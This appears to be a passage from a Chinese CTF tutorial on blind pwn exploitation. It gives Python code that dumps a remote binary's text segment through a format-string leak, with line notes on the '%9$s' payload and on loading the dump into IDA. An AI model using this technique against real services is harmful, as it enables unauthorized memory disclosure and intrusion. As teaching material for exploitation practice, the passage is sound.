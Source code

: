 ```python

# leak
begin = 0x8048000
text_seg =''
try:
    while True:
        ret = leak(begin)
        text_seg += ret
        begin += len(ret)
        if len(ret) == 0:   # nil
            begin +=1
            text_seg += '\x00'
except Exception as e:
    print e
finally:
    print '[+]',len(text_seg)
    with open('dump_bin','wb') as f:
        f.write(text_seg)
```

**注解**：

* 19-21 行：处理无关泄露的程序流程后，进入格式化字符串漏洞输入状态
* 24 行：32 位系统加载地址
* 9 行："%9$s.TMP" 中的 .TMP 既是填充对齐，也是分隔符，方便后面处理数据
* 14 行：使用binascii 将泄漏出来字符串每一个都从 ascii 转换为 十六进制，方便显示
* 15 行：r.recvrepeat(0.2) 接受返回的垃圾数据，方便下一轮的输入
* 30 行：泄漏地址动态增加，假如泄漏 1 字节就增加 1 ；泄漏 3 字节就增加 3 
* 31-33 行：处理泄漏长度为 0 ，也就是数据是 \x00 的情况。地址增加 1 ，程序数据加 \x00

运行之后，耐心等待泄漏完成。泄漏出来的程序是不能运行的，但可以在 ida 进过处理可以进行分析、找 plt 、got.plt 等。

将泄漏出来的程序，放入 ida ，启动时选择**以 binary file 加载**，勾选 **Load as code segment**，并**调整偏移为： 0x8048000 **（开始泄露的地址）：

![](_images/Bilnd_Pwn/2020-06-26-oxwzGb3pT5h8FyVj.png)
